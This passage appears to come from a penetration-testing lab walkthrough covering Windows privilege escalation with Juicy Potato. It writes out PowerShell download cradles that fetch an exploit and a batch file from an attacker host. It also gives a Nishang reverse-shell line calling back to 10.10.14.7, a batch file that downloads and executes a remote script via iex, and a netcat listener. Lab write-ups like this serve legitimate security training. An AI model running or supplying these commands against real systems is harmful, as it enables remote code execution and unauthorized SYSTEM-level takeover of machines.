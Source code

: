 Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/JuicyPotato.exe', 'C:\Users\Destitute\Desktop\jp.exe')
```

Run the executable file to view the arguments it takes.

![](https://miro.medium.com/max/942/1*MXutASCD9YtJArLqrfz0Tg.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\merlin\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\Destitute\Desktop> ./jp.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
COM -> recv failed with error: 10038
```

